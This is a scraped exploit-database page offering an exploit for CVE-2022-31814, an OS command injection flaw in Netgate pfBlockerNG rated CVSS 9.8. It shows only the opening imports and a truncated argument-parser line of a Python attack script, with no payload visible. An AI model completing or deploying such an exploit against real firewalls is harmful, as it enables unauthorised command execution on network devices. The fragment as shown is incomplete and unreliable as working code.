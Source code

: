 ```yaml
---
title: Exploit for Vulnerability in Netgate Pfblockerng exploit
url: https://sploitus.com/exploit?id=FD2D2165-817A-5929-9D58-9D9B33150C26&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-06
fetch_date: 2025-10-04T08:45:01.818914
---
```


# Exploit for Vulnerability in Netgate Pfblockerng exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for OS Command Injection in Netgate Pfblockerng CVE-2022-31814

2023-03-05 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=FD2D2165-817A-5929-9D58-9D9B33150C26
# CVE-2022-31814
# WebApp bug
```
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="pfBlockerNG
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)